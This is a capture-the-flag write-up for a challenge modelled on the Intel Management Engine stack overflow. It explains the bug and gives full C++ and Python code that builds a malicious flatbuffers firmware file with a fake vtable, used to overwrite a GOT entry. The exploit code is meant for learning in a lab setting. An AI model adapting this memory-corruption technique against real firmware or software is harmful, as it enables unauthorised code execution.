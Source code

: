 # Conundrum at El Nit Patroon Rico

- legend

\* A long time ago in a galaxy far, far away.... *

Company headquarters, El Nit Patroon Rico:

[A] In order to satisfy our shareholders, we need a piece of the hardware to be invisible to the user and really hard to tamper. Any ideas?

[B] Mm. We should put another CPU onto the motherboard, load proprietary code on it and make sure the boot0 rom checks digital signatures on that.

[A] Sounds so orwellian when you say it Billy. I love it. Any way this could go wrong?

[B] Maybe. But we can put more obscurity around it, I have a few ideas. Huffman compression with unknown dictionaries burned into boot0, hardware fuses, no documentation.

[A] Fascinating, I will present it to the board of directors. El Nit Patroon Rico will be great again, thanks to you Billy.

`nc challenges.crysys.hu 5010`

_author: Sun G_

Attached files:
- [mefw.fbs](mefw.fbs)
- [me](me)

## Writeup

Looking into the `me` a bit we can see that it reads a "filesystem" from a "firmware" (packed with flatbuffers, and we are even given the fbs file), loads one file, and does nothing.

Generating a valid flatbuffers file was kinda straightforward, mostly following the tutorial, except that finalizing the buffer must be done by `me::FinishFwHeaderBuffer(builder, fs);` or the file will be invalid.

From the strings, I just get reminded of `Intel ME` or `Intel Management Engine`, a platform-control processor in intel motherboards. I've heard of this stuff, but did not know anything really.

But what I knew was, that the author actually had a talk about it: [Dávid Török - My Adventures in Disabling Intel ME 12](https://www.youtube.com/watch?v=MqR6i6qvZFc) (watch it, it's great)

That leads us to another talk of the researchers who first hacked intel ME: [How to Hack a Turned-Off Computer, or Running Unsigned Code in Intel Management Engine](https://www.youtube.com/watch?v=9fhNokIgBMU)

And guess what, the challenge just had the same vulnerability! Basically, `/home/bup/ct` gets read into a fixed-size buffer on the stack, regardless of it's real size. 

Stack canary would catch us, but the Russian researchers found a way around it. There's an object on that stack used to determine address to write, and overflew that to write into a return pointer of a sub-function, and thus redirect the execution to a ROP chain.

It turns out we can't really do the same thing, because the stack randomness is too high - but we still have similar objects determining address to write.

We have so few building blocks that the solution follows kinda naturally. The only global object we partially control is a pointer to the flatbuffer data of of the `FwHeader` entry.

What we need to overwrite a pointer on the stack is:
- pointer to a struct
- that struct's entry at `0x68` should point to another struct
- said struct's entry at `0x28` be a vector
- said vector is a struct with 2 important entries: at `0x0` a pointer to the first entry, `0x8` a pointer to the last
- each entry should be a pointer to a struct
- those structs have 3 important entries: `0x0` size to write (ignored), `0x8` pointer to destination of write, `0x10` should be 0


Well, we can just reuse the flatbuffer data 3 times:
- write pointer to `data - 0x68` to stack
- at `data+0x28` write global address of pointer, `data+0x30` write that address + 8 (set up vector)
- at `data+8`, write address we want to override
- at `data+16`, write 0

Okay, but the flatbuffer thing is complicated, and we can't just insert any data, right? Some fields of it are checked, and they are at the beginning, and also the whole thing is not long enough for that!

[Well, it turns out](https://github.com/dvidelabs/flatcc/blob/master/doc/binary-format.md), if we modify the `vtable`, we can insert any data we like into it, except in the first 4 bytes - but those are never needed! How convenient!

So, what to overwrite? I went for a classic GOT overwrite. We have a `win` function, so the target is obvious. I had to consider functions called from `win`, so I won't get infinite recursion - I've chosen `__assert_fail()` as my entrypoint, as that's easy to trigger by a wrongly-sized chunk, and with a 64 byte write I still don't write any functions used by `win`.

Generating the flatbuffers file:
```cpp
#define FLATBUFFERS_DEBUG_VERIFICATION_FAILURE
#include "mefw_generated.h"
#include <iostream>
#include <string>
#include <fstream>
#include <vector>

int main() {
    
    flatbuffers::FlatBufferBuilder builder;
    auto filename = builder.CreateString("/home/bup/ct");
    std::vector<flatbuffers::Offset<me::Chunk>> chunksvec;
    for (int i = 0; i<18; i++) {
        std::string payload(64, 'A');
        std::vector<uint8_t> chunkdata_vec;
        
        if (i==15) {
            for (int k = 0; k<16; k++) {
                chunkdata_vec.push_back(payload[i]);
            }
            /*
            chunkdata_vec.push_back(0xa0);
            chunkdata_vec.push_back(0x90);
            chunkdata_vec.push_back(0x40);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            // 00 00 00 00 00 40 90 A0
            */
            chunkdata_vec.push_back(0x78-0x68);
            chunkdata_vec.push_back(0x91);
            chunkdata_vec.push_back(0x40);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0);
            chunkdata_vec.push_back(0x00);
            // 00 00 00 00 00 40 91 78
            for (int k = 0; k<64-16-8; k++) {
                chunkdata_vec.push_back(payload[i]);
            }
        } else if (i==17) {
            chunkdata_vec.push_back('A');
        } else if (i==16) {
            for (int k = 0; k<8; k++) {
               chunkdata_vec.push_back(0x18);
                chunkdata_vec.push_back(0x1e);
                chunkdata_vec.push_back(0x40);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0);
                chunkdata_vec.push_back(0x00);
                // 401E18
            }
        } else {
            for (int k = 0; k<64; k++) {
               chunkdata_vec.push_back(payload[i]+i);
            }
        }
        auto chunk = me::CreateChunkDirect(builder, &chunkdata_vec);
        chunksvec.push_back(chunk);
    }
    auto f = me::CreateFileDirect(builder, "/home/bup/ct", 18, false, &chunksvec);
    std::vector<flatbuffers::Offset<me::File>> allFilesVec;
    allFilesVec.push_back(f);
    auto filesVector = builder.CreateVector(allFilesVec);
    auto fs = me::CreateFwHeader(builder, 0x1337,0x1337,0x1337, filesVector);
    me::FinishFwHeaderBuffer(builder, fs);
    int size = builder.GetSize();
    auto pt = builder.ReleaseBufferPointer();
    std::cout<<"Generated payload buffer!"<<std::endl;
    std::ofstream wf("firmware", std::ios::out | std::ios::binary);
    if (!wf) {
        std::cout<<"Could not create file :("<<std::endl;
        return -1;
    }
    wf.write((char*)pt.data(), size);
    wf.close();
    if (!wf.good()) {
        std::cout<<"Error at write time!"<<std::endl;
        return -1;
    }
    std::cout<<"Done!"<<std::endl;

    flatbuffers::Verifier v(pt.data(), size);
    bool ok = me::VerifyFwHeaderBuffer(v);
    std::cout<<"Verification: "<<ok<<std::endl;
    return 0;
}
```

And modding it and putting in extra data:
```python
# add fake data to the root table
# namely 256 bytes

with open("firmware","rb") as fin:
    data = fin.read()

# vtable len
# table len + 0x100
# ofset1 + 0x100
# ofset2
# ofset3
# ofset4
fake_vtable =     b"\x0c\x00" + \
                  b"\x10\x01" + \
                  b"\x06\x01" + \
                  b"\x08\x01" + \
                  b"\x0a\x01" + \
                  b"\x0c\x01"

main_table = data[0x18:]

extradata = list(b"\x00"*0x100)
for i,d in enumerate([0x78,0x91,0x40]):
    extradata[0x28-4+i] = d
for i,d in enumerate([0x78+8,0x91,0x40]):
    extradata[0x28-4+8+i] = d

for i,d in enumerate([0x38,0x8c,0x40]):
    extradata[4+i] = d

extradata = bytes(extradata)



out_data = data[:8]+b"\x00"*4+fake_vtable+main_table[:4]+extradata+main_table[4:]

with open("firmware_fed","wb") as fout:
    fout.write(out_data) 
```

Also, `El Nit Patroon Rico` is an anagram for `Intel Corporation` or `Intel CIA porn root`. Idk witch one was intended...